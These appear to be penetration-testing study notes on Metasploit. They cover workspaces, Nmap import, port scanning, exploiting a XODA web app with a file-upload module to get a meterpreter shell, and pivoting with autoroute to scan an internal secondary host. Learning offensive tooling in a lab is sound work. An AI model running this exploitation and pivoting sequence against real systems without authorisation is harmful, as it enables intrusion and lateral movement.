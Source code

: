 ### Creating and Managing Workspaces

* Create workspace for every engagement
* workspace: shows current workspace
    * workspace -h : show help menu
    * hosts : shows current hosts 
    * workspace -a Test: creates a new workspace and sets as current workspace
    * workspace <name>: change the workspace
    * workspace -d <name>: deletes the workspace

### Importing Nmap results to MSF

* export nmap results to XML
    * nmap -Pn -sV -O <target_ip> -oX output_file
* open msfconsole
    * db_import <nmap_output_file>
    * hosts : will show the target host
    * services : will show the fingerprinted services
* nmap can also be run from msfconsole
    * db_nmap -Pn -sV -O <target_ip>: will achieve the same result

## Enumeration

data acquired during enumeration is saved automatically in database, common cmds to retrieve the information:

* hosts
* services
* creds
* loot

### Port Scanning with Auxiliary modules

![victim_infra](/notes/assets/images/metasploit/victim_infra_metasploit_port_scanning.png)


* start postgresql & msfconsole
* port scan and exploit primary target
    * search portscan
    * use auxialiary/scanner/portscan/tcp; set rhosts <target>; run
    * discovered webapp running on port 80
        * curl <target> reveals xoda running on primary target
    * exploiting xoda to gain access to target
        * search xoda; use exploit/unix/webapp/xoda_file_upload; set rhosts <target>; set targeturi <path>; run;
        * results in a meterpreter session
* private network discovery from primary target
    * from meterpreter
        * shell; /bin/bash -i
            * ifconfig; copy eth1 subnet
            * terminate shell ctrl+c
        * run autoroute -s <primary_target_ip_eth1>
        * put meterpreter session in background --> background/ctrl+z
    * from attacker system
        * use auxialiary/scanner/portscan/tcp; set rhosts <secondary_target>; run
        * This reveals services on secondary target
* UDP scans
    * search udp_sweep; use auxiliary/scanner/discovery/udp_sweep; set rhosts <target>; run
* all the progress will be saved in metasploit
    * services; will reveal all the services fingerprinted on all hosts
